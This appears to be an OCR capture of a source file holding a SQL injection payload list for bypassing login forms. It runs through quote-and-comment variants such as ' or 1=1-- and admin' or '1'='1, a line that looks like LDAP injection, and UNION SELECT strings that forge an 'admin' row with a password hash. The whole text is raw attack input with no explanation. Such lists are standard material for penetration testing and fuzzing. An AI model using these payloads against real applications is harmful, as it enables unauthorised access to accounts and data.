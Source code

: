                admin))(|(|
                1234
                '-'
                ' '
                '&'
                '^'
                '*'
                ' or ''-'
                ' or '' '
                ' or ''&'
                ' or ''^'
                ' or ''*'
                "-"
                " "
                "&"
                "^"
                "*"
                " or ""-"
                " or "" "
                " or ""&"
                " or ""^"
                " or ""*"
                or true--
                " or true--
                ' or true--
                ") or true--
                ') or true--
                ' or 'x'='x
                ') or ('x')=('x
                ')) or (('x'))=(('x
                " or "x"="x
                ") or ("x")=("x
                ")) or (("x"))=(("x
                or 1=1
                or 1=1--
                or 1=1#
                or 1=1/*
                admin' --
                admin' #
                admin'/*
                admin' or '1'='1
                admin' or '1'='1'--
                admin' or '1'='1'#
                admin' or '1'='1'/*
                admin'or 1=1 or ''='
                admin' or 1=1
                admin' or 1=1--
                admin' or 1=1#
                admin' or 1=1/*
                admin') or ('1'='1
                admin') or ('1'='1'--
                admin') or ('1'='1'#
                admin') or ('1'='1'/*
                admin') or '1'='1
                admin') or '1'='1'--
                admin') or '1'='1'#
                admin') or '1'='1'/*
                1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
                1234 ' AND 1=0 UNION ALL SELECT 'admin', '7110eda4d09e062aa5e4a390b0a572ac0d2c0220
                admin" --
                admin" #
                admin"/*
                admin" or "1"="1
                admin" or "1"="1"--